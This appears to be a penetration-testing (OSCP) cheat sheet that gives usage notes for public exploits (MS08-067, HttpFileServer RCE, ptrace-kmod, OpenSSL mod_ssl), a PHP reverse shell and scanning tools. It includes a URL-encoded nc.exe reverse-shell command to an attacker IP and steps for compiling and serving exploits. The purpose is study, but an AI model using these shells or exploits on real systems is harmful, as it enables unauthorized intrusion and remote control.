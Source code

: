 # cheatsheets and exploit code and scripts / OSCP

##Windows Exploits##
<details><summary>MS08-067 Python Remote Exploit</summary>
<p>
(https://www.exploit-db.com/exploits/40279)
edit `shellcode` variable with payload and adjusts NOPS to fit it
</p>
</details>

- <details><summary>HttpFileServer 2.3.x RCE</summary>
<p>
Upload nc.exe into victim machine and performs a reverse shell using nc.exe
```python
	
	#change these to your webserver for uploading nc.exe
	ip_addr = "192.168.1.20" 
	local_port = "80" 
	
	#file will be uploaded to and run from C:\Users\Public, change ip and port here to catch your reverse shell
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20192.168.1.10%20443%20-e%20cmd.exe"
```
</p>
</details>



##Linux Exploits
- <details><summary>Linux Kernel 2.2-4 PrivEsc (ptrace-kmod)</summary>
<p>
(https://www.exploit-db.com/exploits/3)
Works for 2.2.x and 2.4.x kernels.
```c
// include <linux/user.h> <---remove this
// add below 
#include <sys/user.h>
#include <sys/reg.h>
```
</p>
</details>

- <details><summary>Mod SSL 2.8.7 OpenSSL Exploit (openfartV2.c)</summary>
<p>
(https://www.exploit-db.com/exploits/764)
commented out `#COMMAND2` variable out to download. Can be used seperately with ptrace-kmod for PrivEsc.

Usage:
1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`
_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`
</p>
</details>


##Other Exploits
- <details><summary>PHP Reverse Shell (pentest monkey)</summary>
<p>
(http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
Works like a charm in linux php LFI situations better than `system('<reverse shell bash code>');`

1. modify code
```c
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
2. start listener to catch reverse shell
3. upload and run script
</p>
</details>


##Tools
- <details><summary>Onetwopunch - wrapper for unicorn and nmap scan</summary>
<p>
(https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh) 
Scan for port using nicornscan (very fast) and chain it with nmap vuln nse script scan

1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
</p>
</details>

- <details><summary>Droopescan - drupal scanner</summary>
<p>
(https://github.com/droope/droopescan)
```
git clone https://github.com/droope/droopescan.git
cd droopescan
pip install -r requirements.txt
droopescan scan drupal -u http://10.11.1.49
```
</p>
</details>
**Droopescan** scanner for drupal 


